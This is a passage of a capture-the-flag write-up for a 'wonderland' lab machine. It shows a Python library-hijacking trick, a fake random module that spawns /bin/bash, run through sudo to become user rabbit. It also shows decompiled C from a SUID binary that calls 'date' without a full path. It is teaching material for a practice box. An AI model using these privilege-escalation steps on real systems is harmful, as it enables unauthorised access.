 ```python
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

- This code is importing a library named `random`, we can make a new python file with function random and call bash shell as rabbit

```python
#!/usr/bin/python3
import os
os.system("/bin/bash")
```

- Started code as `rabbit`.

```console
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```

## Privilege Escalation (hatter)
- Found a SUID file in `/home/rabbit/`
- On checking code on `ghidra`, found main function

```c
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```
